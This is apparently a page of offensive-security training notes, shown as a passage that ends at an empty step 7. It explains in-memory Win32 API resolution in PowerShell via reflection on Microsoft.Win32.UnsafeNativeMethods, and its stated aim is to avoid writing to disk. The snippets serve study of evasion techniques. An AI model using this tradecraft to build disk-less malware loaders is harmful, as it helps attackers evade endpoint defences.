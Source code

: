 ```yaml
---
title: Unsafe Native Methods
layout: default
parent: Client Side Execution
---
```


1. To avoid writing to disk, we need to perform dynamic lookup of function address instead of `Add-Type` and `DllImport`. 
2. This can be achieved by using Win32 API `GetModuleHandle` and `GetProcAddress`.
3. Since we cannot use them directly to avoid writing to disk, need to find assembly that we can use to invoke these API.

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
$Assemblies |
  ForEach-Object {
    $_.GetTypes()|
      ForEach-Object {
        $_ | Get-Member -Static| Where-Object {
          $_.TypeName.Contains('Unsafe')
        }
    } 2> $null
  }
```

4. Next, perform a filter and search for the location that these APIs are located by adding `$_.Location`. Based on the results, they are `static` and the typename is `Microsoft.Win32.UnsafeNativeMethods` (Use `Contains` instead of `Equals` to avoid error).

```powershell
$Assemblies = [AppDomain]::CurrentDomain.GetAssemblies()
$Assemblies |
  ForEach-Object {
    $_.Location
    $_.GetTypes()|
      ForEach-Object {
        $_ | Get-Member -Static| Where-Object {
          $_.TypeName.Contains('Microsoft.Win32.UnsafeNativeMethods')
        }
    } 2> $null
  }
```

5. After we identify that it is coming from System.dll, we can use the following to search for the required API (in this case `GetModuleHandle`).

```powershell
$systemdll = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') })
$unsafeObj = $systemdll.GetType('Microsoft.Win32.UnsafeNativeMethods')
$GetModuleHandle = $unsafeObj.GetMethod('GetModuleHandle')
```

6. Then we can use the following search for the DLL base address (for example user32.dll):

```powershell
$GetModuleHandle.Invoke($null, @("user32.dll"))
```

7. 
